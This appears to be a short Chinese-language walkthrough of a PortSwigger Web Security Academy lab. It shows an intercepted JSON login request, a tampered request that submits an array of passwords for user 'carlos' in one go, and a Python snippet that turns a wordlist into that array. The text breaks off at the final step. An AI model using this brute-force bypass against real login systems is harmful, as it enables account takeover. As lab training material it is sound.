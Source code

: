 抓包登录，发现请求时 json 格式

```http
POST /login HTTP/2
Host: 0adb00b60311322280170d4a00cc0067.web-security-academy.net
Cookie: session=jSmG7GCzQSGjXal0rmB9aXU0K0nh2dcj
Content-Length: 39
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Content-Type: application/json
Accept: */*
Origin: https://0adb00b60311322280170d4a00cc0067.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0adb00b60311322280170d4a00cc0067.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

{"username":"aaaa","password":"aaaaaa"}
```

于是在 burp 的重发器里该为如下请求数据：

```
"username" : "carlos",
"password" : [
    "123456",
    "password",
    "qwerty"
    ...
]
```

python处理数据

```python
with open('./passwords.txt') as f:
    for i in range(100):
        content = f.readline().strip()
        with open('./passwords3.txt',mode='a') as p:
           p.write("\"")
           p.write(content)
           p.write("\"")
           p.write(",")
```

拦截包提交显示
